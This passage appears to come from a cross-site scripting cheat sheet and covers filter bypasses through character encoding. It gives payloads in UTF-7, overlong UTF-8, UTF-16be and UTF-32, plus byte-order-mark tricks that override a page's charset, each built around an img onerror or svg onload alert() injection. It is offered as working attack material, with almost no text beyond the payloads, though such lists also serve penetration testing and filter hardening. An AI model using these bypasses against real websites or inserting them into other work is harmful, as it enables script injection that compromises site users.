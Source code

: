 ### Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

### Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using BOM

Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using weird encoding or native interpretation
